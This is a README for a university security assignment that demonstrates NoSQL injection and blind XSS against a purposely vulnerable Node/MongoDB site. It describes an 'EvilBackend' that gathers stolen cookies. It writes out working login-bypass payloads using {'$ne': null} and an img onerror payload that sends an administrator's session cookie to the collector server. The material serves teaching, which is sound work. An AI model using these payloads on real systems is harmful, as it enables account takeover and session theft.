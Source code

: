 # ISEC3004-Assignment

## Introduction<br>

This is a repository for ISEC3004 Assignment. The assignment focuses on demostrating XSS and NoSQL Injection attacks.<br>
<br>
#### index.html - Main page for the website<br>
#### Backend - Backend Server
This backend acts as a server for the website. It is written in NodeJS and ExpressJS. It uses MongoDB as the database.<br>
To run the backend server, navigate to the directory and run the following commands:<br>
<b>Make sure to replace the mongoose.connect the URL with your mongoDB URL.</b>
  
```console
npm install
nodemon index.js
```

#### EvilBackend - Backend Server for Blind XSS<br>
This backend acts as the server used by the bad actor to hunt for sesstion cookies. It is written in NodeJS and ExpressJS.<br>
To run the backend server, navigate to the directory and run the following commands:<br>

```console 
npm install
nodemon index.js
```

***

#### NoSql - NoSQL Injection Attack<br>
1. A bad actor can use the following payload to login as a different user if the email is known.<br>

```console
"password": {"$ne": null}
```
<br>
2. If the email is unknown the following payload will log you in as the first user in the database (In most cases the admin) <br>

```console
"email": {"$ne": null}, "password": {"$ne": null}
```
<br>

In the above scenarios, {"$ne": null} means <b>not equal to null</b>.

#### XSS - XSS Attack <br>
When a user account is created with a XSS payload as the user such as: <br>

```console 
<img src="invalid-url" onerror="this.src='http://localhost:5001/hack?cookie='+document.cookie; this.removeAttribute('onerror');"></img>
```
<br>
The payload will be executed when the Administrator of the system loads the admin page. The invalid source url will cause an error and execute the XSS payload in onerror attribute. The payload will send the session cookie to the bad actor's server. The EvilBackend server will then display the session cookie on the page and send a Email to the bad actor as a notification.<br>
